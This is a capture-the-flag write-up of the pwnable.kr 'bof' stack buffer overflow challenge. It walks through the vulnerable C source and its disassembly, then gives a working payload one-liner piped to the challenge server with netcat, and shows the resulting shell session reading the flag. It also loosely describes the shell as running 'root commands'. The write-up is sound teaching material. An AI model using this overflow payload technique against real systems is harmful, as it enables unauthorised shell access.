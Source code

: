 # bof
slopey112 - 2/24/19

The description of this challenge tells us that it is a buffer overflow vulnerability. Downloading the source code, we can see it is indeed a buffer overflow.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

It seems that an argument is passed to `func`, which is `0xdeadbeef`. Then it is compared to a key, `0xcafebabe`, and if the keys match, we will gain access to the shell.

We notice straight of the bat that the argument passed to `func` will never change...Unless, of course, we overflow it.

Let's open up GDB and take a look at this. The only function of interest here is `func`, so we'll disassemble that.

```
0x0000062c <+0>:	push   ebp
0x0000062d <+1>:	mov    ebp,esp
0x0000062f <+3>:	sub    esp,0x48
0x00000632 <+6>:	mov    eax,gs:0x14
0x00000638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
0x0000063b <+15>:	xor    eax,eax
0x0000063d <+17>:	mov    DWORD PTR [esp],0x78c
0x00000644 <+24>:	call   0x645 <func+25>
0x00000649 <+29>:	lea    eax,[ebp-0x2c]
0x0000064c <+32>:	mov    DWORD PTR [esp],eax
0x0000064f <+35>:	call   0x650 <func+36>
0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
0x0000065b <+47>:	jne    0x66b <func+63>
0x0000065d <+49>:	mov    DWORD PTR [esp],0x79b
0x00000664 <+56>:	call   0x665 <func+57>
0x00000669 <+61>:	jmp    0x677 <func+75>
0x0000066b <+63>:	mov    DWORD PTR [esp],0x7a3
0x00000672 <+70>:	call   0x673 <func+71>
0x00000677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
0x0000067a <+78>:	xor    eax,DWORD PTR gs:0x14
0x00000681 <+85>:	je     0x688 <func+92>
0x00000683 <+87>:	call   0x684 <func+88>
0x00000688 <+92>:	leave  
0x00000689 <+93>:	ret   
```

The first interesting thing we see here is on `<+29>`, where `eax` is given `0x2c` of space. This is none other than the buffer. Wait, but wasn't buffer allocated only 32 bytes? Why is it now 44? Simply put, compilers are weird. To make things more efficient, they allocate memory differently.

However, we can't just overflow the buffer. Let's go down to `<+40>`.

```
0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
```

Ok, so here's our key comparison. Our goal is make `[ebp+0x8]` equal to the key. A key observation here is that the key is compared to an address 8 bytes above the `ebp`. Why is that? This is because those 8 bytes are the saved stack frame from `main`. So that means if we just overflow 44 bytes, it isn't enough; we must overflow 44 bytes + those 8 bytes, making 52 bytes in total.

Let's call python on the server with these  things in mind. Also keep in mind that when the key matches, we don't immediately get the flag; rather, we are given the shell. That had a second minor complication, but it can be easily resolved.

```shell
(python -c "print 'A'*52+'\xbe\xba\xfe\xca'"; cat) | nc pwnable.kr 9000
```

The use of `cat` requires some explanation. If we just call `python -c "print 'A'*52+'\xbe\xba\xfe\xca'"`, nothing will happen. When I overflow the buffer, I make the keys match, and hence I get access to the shell. But here's the problem with that: I have no input. And so by the time the code finishes executing, the pipe to the shell will already be closed. Here's a neat trick though. If you go on the command line and call `cat` without any arguments, it simply redirects all input passed to it. And so, if I chain `cat` to the end of our payload, I can pass arbitrary root commands, and have that pipe open for as long as I want. 

```
whoami
bof
ls
bof
bof.c
flag
log
log2
super.pl
cat flag
daddy, I just pwned a buFFer :)
```
